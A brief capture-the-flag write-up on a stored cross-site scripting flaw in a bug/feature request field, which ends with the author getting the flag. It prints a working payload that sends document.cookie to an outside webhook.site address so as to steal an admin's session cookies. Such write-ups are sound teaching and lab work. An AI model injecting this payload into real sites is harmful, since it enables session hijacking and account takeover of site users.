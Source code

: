 # Challenge `My Favourite Cookies` Writeup

- Vulnerability: Cross-Site Scripting (XSS)
  - Exploits a lack of input validation and sanitization, allowing the injection of malicious scripts into the website.
- Where: bug/feature request field
  - The vulnerability is present in the bug/feature request field, which lacks proper input validation.
- Impact: Stealing User Cookies
  - Exploiting this vulnerability allows an attacker to inject a malicious script that captures and sends the admin's cookies to an external site controlled by the attacker.
- NOTE: The injected script in the POC sends the victim's cookies to a webhook site for demonstration purposes.

## Steps to Reproduce

1. Navigate to the site page.
2. Edit the bug/feature request field.
3. Input the following script into the description field:

   <script>document.write('<img src="https://webhook.site/3a9f1629-aa07-4da4-b8b1-890c4834ceaf?c='+document.cookie+'" />');</script>
Now i have the flag
